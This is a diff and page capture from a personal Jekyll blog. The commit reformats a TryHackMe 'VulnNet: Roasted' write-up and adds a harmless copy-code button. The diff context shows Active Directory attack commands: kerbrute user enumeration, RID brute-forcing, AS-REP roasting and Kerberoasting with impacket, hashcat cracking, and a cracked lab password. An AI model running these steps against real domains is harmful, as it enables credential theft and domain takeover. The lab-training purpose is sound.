

Before and after one commit to useless-npc/useless-npc.github.io, a Jekyll site: the page built from _posts/2026-07-28-THM-VulnetRoasted.md, in a window 1280 px wide and 1400 px high, scrolled down 274 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
update tittle

````diff
--- a/_layouts/default.html
+++ b/_layouts/default.html
@@ -11,6 +11,7 @@
     <link rel="stylesheet" href="{{ '/assets/css/home.css' | relative_url }}?v={{ site.time | date: '%s' }}">
     <link rel="stylesheet" href="{{ '/assets/css/card-tweaks.css' | relative_url }}?v={{ site.time | date: '%s' }}">
     <link rel="stylesheet" href="{{ '/assets/css/archive.css' | relative_url }}?v={{ site.time | date: '%s' }}">
+    <link rel="stylesheet" href="{{ '/assets/css/code.css' | relative_url }}?v={{ site.time | date: '%s' }}">
     {% seo %}
   </head>
   <body>
--- a/_posts/2026-07-28-THM-VulnetRoasted.md
+++ b/_posts/2026-07-28-THM-VulnetRoasted.md
@@ -9,11 +9,11 @@ tags: [tryhackme, 'VulnNet: Roasted', Easy]
 
 ### LAB info
 link : https://tryhackme.com/room/vulnnetroasted
+
 Difficulty : Easy
 
 ### Nmap discover open port
 
-1. nmap
 
 ```bash
 nmap -sCV -Pn 10.48.146.159 -p-
@@ -48,7 +48,7 @@ Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows
 
 ### kerbrute username
 
-2. try to brute force for the username
+try to brute force for the username
 
 ```bash
 ./kerbrute_linux_amd64 userenum --dc vulnnet-rst.local -d vulnnet-rst.local /usr/share/seclists/Usernames/Names/names.txt -v
@@ -63,7 +63,7 @@ try with other wordlist
 
 guest@vulnnet-rst.local
 
-3. try with smb
+### SMB enumeration
 
 ```bash
 netexec smb vulnnet-rst.local -u guest -p '' --shares
@@ -77,7 +77,7 @@ smbclient //vulnnet-rst.local/VulnNet-Business-Anonymous -U vulnnet-rst.local/gu
 
 ### RID bruteforce
 
-4.  rid is the last few digit in the SID usch 500 administrator
+rid is the last few digit in the SID usch 500 administrator
 
 so this is to bruteforce form 500 - 1111 to look for the any user
 ```bash
@@ -97,9 +97,9 @@ j-leet
 
 ###  AS-REP Roasting attack
 
-5.  try performing AS-REP Roasting incase the user we get have pre-authentication disable
+try performing AS-REP Roasting incase the user we get have pre-authentication disable
 
-### The 2-Step Ticket Booth Exchange
+#### The 2-Step Ticket Booth Exchange
 
 ```
 [ Your Computer ] ───────────────── AS-REQ ────────────────> [ Domain Controller ]
@@ -117,6 +117,8 @@ j-leet
 SO this attack is perfrom if the user have pre-authentication turned off so it can just enter the domain without password and the domain controller will hand it a TGT which encrypted with the user password and we can crack offline .
 
 get npu - no preauthentication user
+
+
 ```bash
 impacket-GetNPUsers vulnnet-rst.local/ -no-pass -usersfile user.txt -dc-ip 10.48.147.26
 ```
@@ -137,7 +139,7 @@ $krb5asrep$23$t-skid@VULNNET-RST.LOCAL:a25c3ba29877014983d84fc96926238a$9ab046b4
 
 ### Crack
 
-6. now hashcat crack it
+now hashcat crack it
 
 ```cmd
 hashcat.exe -m 18200 ..\hash.txt ..\rockyou.txt
@@ -150,7 +152,7 @@ tj072889*
 
 ### bloodhound
 
-7. now check with ldap if can we can bloodhound dump
+now check with ldap if can we can bloodhound dump
 
 ```bash
 netexec ldap vulnnet-rst.local -u 't-skid' -p 'tj072889*' --port 389 --users
@@ -166,7 +168,7 @@ bloodhound-ce-python -u 't-skid' -p 'tj072889*' -d vulnnet-rst.local -dc WIN-2BO
 
 ### kerberos attacks
 
-8. when look for kerberoastable i found the service  account enterprise-core-vn
+when look for kerberoastable i found the service  account enterprise-core-vn
 
 ```bash
 impacket-GetUserSPNs 'vulnnet-rst.local/t-skid:tj072889*' -dc-ip 10.48.147.26 request
@@ -227,7 +229,7 @@ https://medium.com/@mvelazco/hunting-for-samaccountname-spoofing-cve-2021-42287-
 
 ### get the POC
 
-10. then i go donwload the poc
+then i go donwload the poc
 
 https://github.com/safebuffer/sam-the-admin/tree/main
 
@@ -244,6 +246,5 @@ psexec will upload a file on the target machine so can cd and may be detected
 
 ### Root flag
 
-11. finally
-we get the root flag
+finally we get the root flag
 ![Image9](/assets/images/THM/VulnNetRoasted/VulnetRoasted-9.png)
--- /dev/null
+++ b/assets/css/code.css
@@ -0,0 +1 @@
+.post-content pre.code-block{position:relative;padding-top:52px;font-size:.88rem}.copy-code{position:absolute;top:11px;right:11px;border:1px solid rgba(104,240,173,.38);border-radius:5px;padding:5px 9px;background:rgba(104,240,173,.06);color:var(--green);font:500 .65rem var(--mono);cursor:pointer;transition:background .18s,color .18s,border-color .18s}.copy-code:hover,.copy-code:focus-visible,.copy-code.is-copied{background:var(--green);border-color:var(--green);color:#06110c;outline:none}.copy-code:focus-visible{box-shadow:0 0 0 3px rgba(104,240,173,.2)}
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -35,4 +35,35 @@
   }
   const bar = document.querySelector('.reading-progress span');
   if (bar && content) window.addEventListener('scroll', () => { const start = content.offsetTop - 120; const end = start + content.offsetHeight - innerHeight; const progress = Math.max(0, Math.min(1, (scrollY - start) / Math.max(end - start, 1))); bar.style.transform = `scaleX(${progress})`; }, { passive: true });
+
+  document.querySelectorAll('.post-content pre').forEach(pre => {
+    const code = pre.querySelector('code');
+    if (!code) return;
+    pre.classList.add('code-block');
+    const button = document.createElement('button');
+    button.type = 'button';
+    button.className = 'copy-code';
+    button.textContent = 'Copy';
+    button.setAttribute('aria-label', 'Copy code to clipboard');
+    button.addEventListener('click', async () => {
+      const source = code.innerText;
+      try {
+        if (!navigator.clipboard) throw new Error('Clipboard API unavailable');
+        await navigator.clipboard.writeText(source);
+      } catch {
+        const area = document.createElement('textarea');
+        area.value = source;
+        area.style.position = 'fixed';
+        area.style.opacity = '0';
+        document.body.append(area);
+        area.select();
+        document.execCommand('copy');
+        area.remove();
+      }
+      button.textContent = 'Copied!';
+      button.classList.add('is-copied');
+      setTimeout(() => { button.textContent = 'Copy'; button.classList.remove('is-copied'); }, 1600);
+    });
+    pre.append(button);
+  });
 })();
````
